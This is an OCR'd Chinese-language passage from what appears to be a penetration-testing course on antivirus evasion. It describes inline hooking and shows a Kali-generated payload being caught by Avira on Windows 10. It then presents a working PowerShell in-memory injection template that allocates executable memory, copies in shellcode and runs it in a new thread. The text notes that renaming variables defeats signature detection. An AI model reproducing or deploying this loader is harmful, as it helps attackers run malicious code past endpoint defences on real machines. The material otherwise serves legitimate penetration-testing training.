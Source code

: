 #### Inline hooking

顾名思义，这种技术包括修改内存并在函数中引入一个钩子（重定向代码执行的指令），以将执行流指向恶意代码。在执行恶意代码时，流将返回修改后的函数并继续执行，看起来好像只有原始代码执行过一样。

### AV逃避：实例

现在我们已经对反病毒软件中使用的检测技术和相关的绕过方法有了一个大致的了解，我们可以将重点转向一个实际的例子。

找到一个通用的解决方案来绕过所有的防病毒产品是困难和耗时的。考虑到典型渗透测试期间的时间限制，针对部署在客户端网络中的特定防病毒产品更有效。

在本模块中，我们将在Windows 10客户端上安装Avira免费防病毒软件15.0.34.16。自己可以在网上搜索一下，很容易就能找到，然后安装启动一下就可以了。

![image.png](https://cdn.nlark.com/yuque/0/2020/png/2398693/1606273386014-753a5ba5-bd74-4e21-a0c9-5d5196645e10.png)

然后我们把在kali上生成的恶意文件传送到win10上面运行一下，看一下杀毒软件的效果，我刚从kali上下载下来，就被检测到了，运行也是会被阻止。

![image.png](https://cdn.nlark.com/yuque/0/2020/png/2398693/1606273724501-cdbbcda9-0c9b-4782-b889-eadfcc9a0bf4.png)

#### PowerShell内存注入

根据我们的目标环境以及它的限制程度，我们可以借助PowerShell绕过防病毒产品

在下面的示例中，我们将使用与远程进程内存注入部分中描述的类似的技术。主要区别在于，我们将针对当前正在执行的进程，在我们的例子中，它将是PowerShell解释器。

PowerShell的一个非常强大的特性是它能够与windowsapi交互。这允许我们在PowerShell脚本中实现内存注入过程。执行脚本而不是PE的一个主要好处是，反病毒制造商很难确定脚本是否恶意，因为它是在解释器中运行的，而且脚本本身不是可执行代码。不过，请记住，有些AV产品比其他产品更好，处理恶意脚本检测更成功。

此外，即使脚本被标记为恶意的，它也很容易被修改。防病毒软件通常会查看变量名、注释和逻辑，所有这些都可以在不需要重新编译的情况下进行更改。

在下面的代码中，我们看到一个执行内存注入的基本模板脚本：

```
$code = '
[DllImport("kernel32.dll")]
public static extern IntPtr VirtualAlloc(IntPtr lpAddress, uint dwSize, uint flAllocat ionType, uint flProtect);

[DllImport("kernel32.dll")]
public static extern IntPtr CreateThread(IntPtr lpThreadAttributes, uint dwStackSize, IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreationFlags, IntPtr lpThreadId);

[DllImport("msvcrt.dll")]
public static extern IntPtr memset(IntPtr dest, uint src, uint count);';

$winFunc = Add-Type -memberDefinition $code -Name "Win32" -namespace Win32Functions -passthru;

[Byte[]];
[Byte[]]$sc = <place your shellcode here>;

$size = 0x1000;

if ($sc.Length -gt 0x1000) {$size = $sc.Length};

$x = $winFunc::VirtualAlloc(0,$size,0x3000,0x40);

for ($i=0;$i -le ($sc.Length-1);$i++) {$winFunc::memset([IntPtr]($x.ToInt32()+$i), $sc[$i], 1)};

$winFunc::CreateThread(0,0,$x,0,0,0);for (;;) { Start-sleep 60 };
```
